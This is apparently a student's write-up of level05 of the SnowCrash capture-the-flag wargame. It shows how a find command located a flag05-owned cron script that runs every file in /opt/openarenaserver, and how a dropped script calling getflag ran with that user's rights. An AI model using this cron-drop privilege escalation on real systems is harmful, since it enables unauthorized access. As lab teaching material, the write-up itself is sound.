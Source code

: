 # Writeup level05


The first message I get after login to ssh level05

![level05_start.png](https://cdn.discordapp.com/attachments/1164485225875783701/1173707145108267108/image.png?ex=6564eef5&is=655279f5&hm=1496f6ae70e4e93b77dd6bbb46e63d59a3e54dd47c6cb6a73e07b73ee52ce826&)

We can go to emails directly or search for files created by flag05

```
find / -user flag05 -exec ls -la {} \; 2>/dev/null
```

we have result :
```
level05@SnowCrash:~$ find / -user flag05 -exec ls -la {} \; 2>/dev/null
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
-rwxr-x--- 1 flag05 flag05 94 Mar  5  2016 /rofs/usr/sbin/openarenaserver
```
we have read to this files 
let see the emails now and read files that crate by flag05:


![level05_start.png](https://cdn.discordapp.com/attachments/1164485225875783701/1173710786863042580/image.png?ex=6564f25a&is=65527d5a&hm=8ec668b4c50c42d25b9480ec22f08bdaf5f9c7878ef9141767ce6ebf42a4a7a0&)

we know now that every 2 minutes execute /usr/sbin/openarenaserver with flag05 user which mean our goal is to exploit openarenaserver and wait until the cron job runs.

openarenaserver:
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
In this script we can see loop in opt/openarenaserver/ folder and than excute every file and the -x: This is an option or flag that stands for "xtrace" or "trace execution." When this option is used, Bash prints each command and its arguments to the standard error output before executing them.

our goal just  execute getflag command 
let test

```
#!/bin/sh

getflag > /tmp/ok.ok
```

![level05_exploit.png](https://cdn.discordapp.com/attachments/1164485225875783701/1173718202849689662/image.png?ex=6564f942&is=65528442&hm=733d461a4bfece3f4f32ec348df134c53f08136fe5d82e6ada9028e45fe23d8b&)




